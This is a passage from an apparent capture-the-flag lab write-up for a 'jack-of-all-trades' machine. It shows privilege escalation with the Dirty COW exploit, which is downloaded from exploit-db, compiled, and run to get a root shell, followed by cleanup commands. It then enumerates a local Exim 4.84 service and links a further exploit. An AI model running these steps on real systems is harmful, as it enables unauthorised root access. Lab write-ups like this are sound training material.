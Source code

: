 Then, we try other exploit:

```
wget https://www.exploit-db.com/download/40847
mv 40847 40847.cpp
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
```

We transfer on target and...

```
jack@jack-of-all-trades:~$ chmod +x dcow
jack@jack-of-all-trades:~$ ./dcow -s
Running ...
Password overridden to: dirtyCowFun

Received su prompt (Password: )

root@jack-of-all-trades:~# echo 0 > /proc/sys/vm/dirty_writeback_centisecs
root@jack-of-all-trades:~# cp /tmp/.ssh_bak /etc/passwd
root@jack-of-all-trades:~# rm /tmp/.ssh_bak
root@jack-of-all-trades:~# id
uid=0(root) gid=0(root) groups=0(root),1001(dev)
```


# Privesc2

We noticed that port 25/TCP is listening only on localhost:

```
jack@jack-of-all-trades:~$ netstat -natlp
(No info could be read for "-p": geteuid()=1000 but you should be root.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -
tcp        0    476 10.10.172.49:80         10.8.147.132:35296      ESTABLISHED -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 ::1:25                  :::*                    LISTEN      -
```

```
jack@jack-of-all-trades:~$ telnet localhost 25
Trying ::1...
Connected to localhost.
Escape character is '^]'.
220 jack-of-all-trades ESMTP Exim 4.84 Tue, 01 Mar 2022 22:13:45 +0000
```

Maybe we could also try this:

https://www.exploit-db.com/exploits/39549	
